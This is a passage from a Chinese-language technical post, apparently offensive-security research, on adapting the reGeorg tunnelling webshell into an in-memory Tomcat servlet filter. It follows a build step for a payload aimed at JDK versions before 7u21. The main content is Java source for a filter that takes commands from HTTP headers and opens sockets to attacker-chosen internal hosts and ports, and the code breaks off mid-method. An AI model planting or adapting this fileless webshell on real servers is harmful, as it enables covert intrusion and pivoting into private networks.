 
**打包(jdk<7u21)**

 

`mvn clean package -DskipTests`



**改造reGeorg**

对于reGeorg服务端的更改其实也就是request等对象的获取方式，为了方便注册filter，我直接让该类实现了Filter接口，在doFilter方法中完成reGeorg的主要逻辑，在equals方法中进行filter的动态注册

```java
package reGeorg;

import javax.servlet.*;
import java.io.IOException;

public class MemReGeorg implements javax.servlet.Filter{
    private javax.servlet.http.HttpServletRequest request = null;
    private org.apache.catalina.connector.Response response = null;
    private javax.servlet.http.HttpSession session =null;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request1, ServletResponse response1, FilterChain filterChain) throws IOException, ServletException {
        javax.servlet.http.HttpServletRequest request = (javax.servlet.http.HttpServletRequest)request1;
        javax.servlet.http.HttpServletResponse response = (javax.servlet.http.HttpServletResponse)response1;
        javax.servlet.http.HttpSession session = request.getSession();
        String cmd = request.getHeader("X-CMD");
        if (cmd != null) {
            response.setHeader("X-STATUS", "OK");
            if (cmd.compareTo("CONNECT") == 0) {
                try {
                    String target = request.getHeader("X-TARGET");
                    int port = Integer.parseInt(request.getHeader("X-PORT"));
                    java.nio.channels.SocketChannel socketChannel = java.nio.channels.SocketChannel.open();
                    socketChannel.connect(new java.net.InetSocketAddress(target, port));
                    socketChannel.configureBlocking(false);
                    session.setAttribute("socket", socketChannel);
                    response.setHeader("X-STATUS", "OK");
                } catch (java.net.UnknownHostException e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                } catch (java.io.IOException e) {
                    response.setHeader("X-ERROR", e.getMessage());
                    response.setHeader("X-STATUS", "FAIL");
                }
            } else if (cmd.compareTo("DISCONNECT") == 0) {
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
                try{
                    socketChannel.socket().close();
                } catch (Exception ex) {
                }
                session.invalidate();
            } else if (cmd.compareTo("READ") == 0){
                java.nio.channels.SocketChannel socketChannel = (java.nio.channels.SocketChannel)session.getAttribute("socket");
```